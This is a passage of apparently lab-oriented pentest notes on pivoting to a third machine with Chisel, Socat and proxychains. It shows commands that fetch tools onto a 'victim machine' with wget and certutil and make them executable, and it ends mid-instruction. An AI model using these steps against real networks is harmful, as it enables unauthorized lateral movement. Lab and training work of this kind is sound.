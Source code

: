 <figure><img src="../../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

All right! We stop listening on the Kali and to reach the third machine, we've to do the same procedure.

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

We need Chisel and Socat on target 2, then we transfer it as always, but using target 1 machine and not Kali.&#x20;

<pre class="language-bash"><code class="lang-bash"><strong>#Target 1
</strong><strong>python3 -m http.server 80 #target 1, on the same directory of chisel
</strong></code></pre>

<pre class="language-bash"><code class="lang-bash"><strong>#Target 2
</strong>proxychains ssh ubuntu@20.20.20.4 #access to target 2 from kali
wget http://20.20.20.7/* #download chisel and socat (if victim machine has Linux OS)
certutil -urlcache -split -f http://20.20.20.7/* #download chisel and socat (if victim machine has Windows OS)
chmod +x chisel #give execution permission
chmod +x socat #give execution permission
</code></pre>

Then, we need to open a new tunnel connection on Kali machine, therefore we execute a 2nd session of target 1 on a different port of socks5.

#### Setting proxychains

With root privileges edit the file `/etc/proxychains4.conf`. At the bottom, you should add the following line:
